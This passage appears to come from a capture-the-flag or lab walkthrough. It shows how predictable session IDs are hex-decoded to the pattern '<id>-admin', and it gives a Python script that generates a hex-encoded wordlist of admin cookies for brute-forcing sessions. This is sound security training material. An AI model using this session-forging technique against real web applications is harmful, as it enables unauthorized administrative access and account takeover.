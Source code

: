 The session id we got was some random encoded string. I tried to decode the session id's by some basic encoding schemes in cyber chef and was able to decode the string using `From Hex` scheme.

<figure><img src=".gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>

The string that we got after decoding is `<id>-admin`. Since we know all the possible id's, we can generate a word list of all possible `<id>-admin` sessions ids with Hex encoding. The wordlist can be generated using the following python script.

```python
#! /usr/bin/python

wordlist = open("hex_640.txt", "w")

cookies = [f"{i}-admin".encode("utf-8").hex() + "\n" for i in range(0, 641)]

wordlist.writelines(cookies)

wordlist.close()
```

Now we have successfully generated the word list by executing the above python script.

<figure><img src=".gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>
